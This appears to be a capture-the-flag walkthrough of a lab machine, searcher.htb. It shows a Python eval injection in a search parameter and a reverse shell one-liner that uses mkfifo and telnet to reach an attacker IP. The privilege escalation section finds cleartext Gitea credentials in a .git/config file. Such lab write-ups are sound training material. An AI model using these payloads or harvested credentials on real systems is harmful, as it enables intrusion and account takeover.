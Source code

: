 To construct the payload, we need to create a valid Python expression that executes any command of our choosing. Firstly, let's write a code snippet that uses 'curl' to retrieve a web page:

```python
__import__('os').system('curl https://10.10.14.88:8000/')
```

Now, we need to inject this code into the 'eval' expression. The simplest way to achieve this is by concatenating two strings: one empty string and the other being the result (status code) of the executed command:

```python 
url = eval(
  f"Engine.Google.search('' + str(__import__('os').system('curl http://10.10.14.88:8000/'))) # ', copy_url={copy}, open_web={open})"
)
```

That way, our malicious search will be executed on the server side:

```python
' + str(__import__('os').system('TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.88 4000 0<$TF | bash 1>$TF')))#
```

![[Pasted image 20240927003428.png]]

## Privilege Escalation

#### Local Enumeration (svc)

We log in as the `svc` user. The user's flag is located in the home directory.

As we begin searching the system, we come across some sensitive files. The first one is `/etc/hosts`, which provides information about a _gitea_ subdomain (gitea.searcher.htb).

![[Pasted image 20240927003436.png]]

The second one is located on the webpage directory: `.git/config`. This file contain the credentials of the cody user in _gitea_. 

```bash
$ cat config
...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
```

This is the password for the `svc` user too.
#### Another user?

Accessing the Gitea homepage, we discover that there's an `administrator` user who has contributed to the `Searcher_site` repository.

![[Pasted image 20240927003443.png]]
